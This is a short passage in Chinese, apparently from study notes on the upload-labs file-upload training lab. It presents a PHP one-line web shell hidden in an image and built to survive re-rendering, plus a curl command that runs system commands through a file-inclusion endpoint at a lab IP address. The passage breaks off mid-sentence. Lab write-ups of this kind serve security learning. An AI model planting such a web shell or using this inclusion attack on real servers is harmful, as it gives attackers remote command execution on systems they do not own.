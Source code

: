 

我改了一下，可以接POST型的系统调用，原图片也只能用月球图片

这个图可以过二次渲染，内容是

```
<?=`$_POST[c]`?>
```

使用命令为

``` 
curl -i -X POST "http://192.168.189.128/upload/include.php?file=19765.jpg" -d "c=dir" -o result.txt
```



图片马为

![payload-post-password-is-c](upload-labs学习笔记/payload-post-password-is-c.jpg)

上传后的图片为
